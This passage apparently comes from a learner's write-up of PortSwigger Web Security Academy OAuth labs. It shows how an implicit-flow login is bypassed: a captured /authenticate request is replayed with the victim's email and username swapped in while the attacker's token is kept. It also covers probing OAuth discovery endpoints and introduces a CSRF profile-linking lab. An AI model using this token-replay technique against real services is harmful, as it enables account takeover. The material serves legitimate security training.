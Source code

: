             headers: {
                'Accept': 'application/json',
                'Content-Type': 'application/json'
            },
            body: JSON.stringify({
                email: j.email,
                username: j.sub,
                token: token
            })
        }).then(r => document.location = '/'))
    </script>

The client application then accesses the token using JavaScript. inorder to maintain the session after the user closes the page, it stores the current user data (normally a user ID and the access token) at the server by submitting it in a POST request and then assign the user a session cookie, effectively logging them in:

5.an API call to OAuth server with proper credentials yields the user data needed to login:

    POST /authenticate HTTP/1.1
    Host: 0a8c004104f09336c0fa667700ec003d.web-security-academy.net
    ..
    {"email":"wiener@hotdog.com","username":"wiener","token":"1Cy4pkFilqjUbo9i1vkQl2ZTHWfKH_deo97i9aWlgta"}

note that this combines the access token recived in stage 1 (user login) with stage 2 (client valiadtion) procedures (step1-)

change email and username and leave token:

 {"email":"carlos@carlos-montoya.net","username":"carlos","token":"1Cy4pkFilqjUbo9i1vkQl2ZTHWfKH_deo97i9aWlgta"}

# Carlosed


hint:
 Once you know the hostname of the authorization server, you should always try sending a GET request to the following standard endpoints:

    /.well-known/oauth-authorization-server
    /.well-known/openid-configuration

These will often return a JSON configuration file containing key information, such as details of additional features that may be supported. This will sometimes tip you off about a wider attack surface and supported features that may not be mentioned in the documentation. 



# ***2. Lab: Forced OAuth profile linking***
https://portswigger.net/web-security/oauth/lab-oauth-forced-oauth-profile-linking

To solve the lab, use a CSRF attack to attach your own social media profile to the admin user's account on the blog website, then access the admin panel and delete Carlos. 
